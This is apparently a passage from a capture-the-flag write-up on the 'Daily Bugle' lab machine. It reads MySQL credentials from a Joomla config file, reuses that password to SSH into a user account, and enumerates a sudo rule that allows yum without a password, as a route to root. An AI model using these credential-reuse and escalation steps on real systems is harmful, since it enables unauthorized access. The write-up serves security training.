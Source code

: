 ```php
        public $MetaVersion = '0';
        public $robots = '';
        public $sef = '1';
		public $sef_rewrite = '0';
        public $sef_suffix = '0';
        public $unicodeslugs = '0';
        public $feed_limit = '10';
        public $feed_email = 'none';
        public $log_path = '/var/www/html/administrator/logs';
        public $tmp_path = '/var/www/html/tmp';
        public $lifetime = '15';
        public $session_handler = 'database'; 
        public $shared_session = '0';
?>
```

Contains MySQL credentials	`root`:`nv5uz9r3ZEDzVjNu`.

## Credential Reuse

Check for user accounts:

```bash
$ ls /home

jjameson
```

Assuming Jonah Jameson (`jjameson`) is the administrator of the website, attempt to reuse the MySQL password to SSH into the `jjameson` account. Success.

```bash
$ ssh jjameson@10.10.134.173
jjameson@10.10.134.173's password: nv5uz9r3ZEDzVjNu

Last login: Tue Jul 13 01:35:03 2021 from ip-10-6-31-77.eu-west-1.compute.internal
[jjameson@dailybugle ~]$ whoami
jjameson
```

Grab the user flag at `/home/jjameson/user.txt`.

# `jjameson` Privilege Escalation

## Enumeration

```bash
$ sudo -l

Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2
    QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
